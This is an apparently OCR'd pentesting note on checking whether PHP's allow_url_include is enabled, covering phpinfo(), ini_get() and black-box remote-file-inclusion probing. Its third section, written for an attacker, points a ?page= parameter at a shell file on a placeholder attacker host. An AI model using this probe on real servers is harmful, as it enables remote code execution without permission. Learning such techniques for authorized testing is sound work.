#### 🔎 1. Using `phpinfo()`

If you can upload or execute PHP code, create a file like:

```php
<?php phpinfo(); ?>

```

Open it in the browser → it will show the full PHP configuration.

Search for:

```
allow_url_include

```

* `On` ✅ → You can include remote URLs.
* `Off` ❌ → Only local files can be included.

***

#### 🔎 2. Using `ini_get()`

You can test with:

```php
<?php
echo ini_get("allow_url_include");
?>

```

* If it prints `1` → enabled.
* If it prints nothing/empty → disabled.

***

#### 🔎 3. Indirect Testing (Black-Box, No Code Execution Yet)

If you’re attacking and can only control the `?page=` parameter:

*   Try:

    ```
    http://target.com/index.php?page=http://attacker.com/shell.txt

    ```
* On your attacker machine (say with Python’s SimpleHTTPServer or PHP server), check your logs.
* If you see the server requesting your file, it means the target tried to fetch it.
* If it executes the PHP code inside, then **RFI is possible**.

If it only fetches but doesn’t execute, then `allow_url_fopen` may be ON, but `allow_url_include` is OFF.

***
